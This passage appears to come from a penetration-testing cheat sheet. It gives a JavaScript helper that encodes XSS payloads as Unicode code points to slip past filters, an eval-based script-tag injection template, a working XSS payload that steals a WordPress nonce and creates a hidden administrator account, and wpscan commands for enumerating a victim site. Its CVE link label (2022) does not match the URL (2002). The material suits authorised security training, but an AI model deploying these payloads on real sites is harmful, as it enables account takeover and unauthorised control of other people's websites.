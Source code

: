 When injecting XSS javascript payload, you may may want to ensure no characters get filtered. An easy way to ensure that is to encode the payload as Unicode code points.

```javascript
// Use the following code in your browser's console to encode the payload as Unicode code points.
function encode_javascript(minified_js) {
  return [...minified_js].map(function (c) { return c.codePointAt(0); }).join(",")
}
let encoded = encode_javascript("insert_minified_javascript") // replace with your payload
console.log(encoded)
```

Once the payload is encoded, insert the resulting array of integers into the following injected XSS script tag:

```html
<!-- replace digits with output from previous encoder -->
<script>eval(String.fromCodePoint(97,108,101,114,116,40,39,128526,39,41))</script>
<!-- example is code for "alert('😎')" -->
```



Here is an example script payload that creates an admin user on a vulnerable WordPress site by exploiting the vulnerable User-Agent header:

```javascript
// Collect WordPress nonce from admin user
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

// Create new admin account
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=derp&email=derp@derp.com&pass1=herpderp&pass2=herpderp&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```


### 2.6.8 WordPress

```sh
wpscan --update -o wp-scan.txt --url http://$VICTIM_IP/

# --enumerate options:
# p = Popular plugins
# vp = Vulnerable plugins
# ap = All plugins (takes a while)
# t = Popular themes
# vt = Vulnerable themes
# at = All themes (takes a while)
# cb = Config backups
# tt = Timthumbs
# dbe = Db exports
# u = usernames w/ ids 1-10
# m = media IDs 1-10
# NOTE: Value if no argument supplied: --enumerate vp,vt,tt,cb,dbe,u,m

# other useful flags:
# --login-uri URI
#     The URI of the login page if different from /wp-login.php
# --random-user-agent, --rua
```

[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744
